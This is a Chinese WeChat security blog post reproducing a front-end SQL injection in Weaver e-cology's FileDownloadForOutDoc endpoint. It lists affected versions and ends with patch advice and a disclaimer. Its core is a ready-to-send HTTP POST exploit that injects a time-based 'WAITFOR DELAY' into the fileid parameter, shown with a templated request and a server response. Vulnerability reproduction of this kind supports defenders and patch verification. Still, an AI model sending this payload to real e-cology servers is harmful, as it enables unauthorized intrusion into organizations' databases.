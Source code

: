 #  泛微OA e-cology FileDownloadForOutDoc前台SQL注入漏洞

原创 Henry4E36 [ 才疏学浅的H6 ](javascript:void\(0\);)

**才疏学浅的H6** ![]()

微信号 Sec-Henry

功能介绍 一个在渗透的海洋里摸爬滚打的少年

____

___发表于_

收录于合集

#sql 1 个

#复现 24 个

#漏洞 33 个

#漏洞复现 39 个

#泛微 1 个

**本文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。**

 **漏洞说明**

        泛微e-cology是一款由泛微网络科技开发的协同管理平台，支持人力资源、财务、行政等多功能管理和移动办公。

        泛微e-cology FileDownloadForOutDoc 未对用户的输入进行有效的过滤，直接将其拼接进了SQL查询语句中，导致系统出现SQL注入漏洞。

 **影响版本**

  *   * 

    
    
     部分e-cology 8且补丁版本<10.58.0部分e-cology 9且补丁版本<10.58.0

 **漏洞复现**

![](https://gitee.com/fuli009/images/raw/master/public/20230714180548.png)

payload：  

  *   *   *   *   *   *   *   *   * 

    
    
    POST /weaver/weaver.file.FileDownloadForOutDoc HTTP/1.1Host: ip:portUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36Content-Length: 45Content-Type: application/x-www-form-urlencodedAccept-Encoding: gzip, deflateConnection: close  
    fileid=3+WAITFOR+DELAY+'0:0:8'&isFromOutImg=1

请求包：  

  *   *   *   *   *   *   *   *   * 

    
    
    POST /weaver/weaver.file.FileDownloadForOutDoc HTTP/1.1Host: ip:portUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36Content-Length: 45Content-Type: application/x-www-form-urlencodedAccept-Encoding: gzip, deflateConnection: close  
    fileid={everything}+WAITFOR+DELAY+'0:0:8'&isFromOutImg=1

响应包：  

  *   *   *   *   *   *   *   *   *   *   * 

    
    
    HTTP/1.1 200 OKServer: WVSCache-Control: privateX-Frame-Options: SAMEORIGINX-XSS-Protection: 1Set-Cookie: ecology_JSessionid=aaag6HUJ_5F8Y8MrDt2Ky; path=/Content-Length: 0Connection: closeDate: Tue, 11 Jul 2023 12:54:14 GMT  
      
    

![](https://gitee.com/fuli009/images/raw/master/public/20230714180550.png)

 **修复建议**

目前官方已发布安全补丁，建议受影响用户尽快将补丁版本升级至10.58及以上。https://www.weaver.com.cn/cs/securityDownload.asp#

本文章仅用于学习交流，不得用于非法用途

星标加关注，追洞不迷路

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

